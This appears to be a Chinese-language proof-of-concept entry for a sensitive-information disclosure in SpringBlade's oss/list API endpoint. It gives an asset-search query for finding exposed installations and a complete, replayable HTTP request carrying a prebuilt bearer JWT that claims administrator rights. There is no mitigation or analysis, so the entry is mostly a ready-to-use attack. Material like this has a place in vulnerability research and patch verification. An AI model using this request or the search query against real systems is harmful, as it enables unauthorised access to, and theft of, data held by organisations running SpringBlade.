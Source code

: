 # SpringBlade oss-list存在敏感信息泄露

# 一、漏洞简介
SpringBlade oss-list存在敏感信息泄露漏洞

# 二、影响版本
+ SpringBlade

# 三、资产测绘
+ `<font style="color:rgb(63, 63, 63);">body="https://bladex.vip"</font>`

![1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71.png](./img/0xN12jNa7AiTLwb2/1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71-932459.png)

# 四、漏洞复现
```java
GET /api/blade-resource/oss/list HTTP/1.1
Host: 
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Blade-Auth: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJ1c2VyX25hbWUiOiJhZG1pbiIsInJlYWxfbmFtZSI6IueuoeeQhuWRmCIsImF1dGhvcml0aWVzIjpbImFkbWluaXN0cmF0b3IiXSwiY2xpZW50X2lkIjoic2FiZXIiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwibGljZW5zZSI6InBvd2VyZWQgYnkgYmxhZGV4IiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwic2NvcGUiOlsiYWxsIl0sIm5pY2tfbmFtZSI6IueuoeeQhuWRmCIsIm9hdXRoX2lkIjoiIiwiZGV0YWlsIjp7InR5cGUiOiJ3ZWIifSwiYWNjb3VudCI6ImFkbWluIn0.RtS67Tmbo7yFKHyMz_bMQW7dfgNjxZW47KtnFcwItxQ
Connection: close
```

![1722874954212-1f03a047-380f-4f1e-8ed9-65fab9ab13ba.png](./img/0xN12jNa7AiTLwb2/1722874954212-1f03a047-380f-4f1e-8ed9-65fab9ab13ba-625732.png)



> 更新: 2024-12-13 17:10:56  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ocwnh58qqdgndhlk>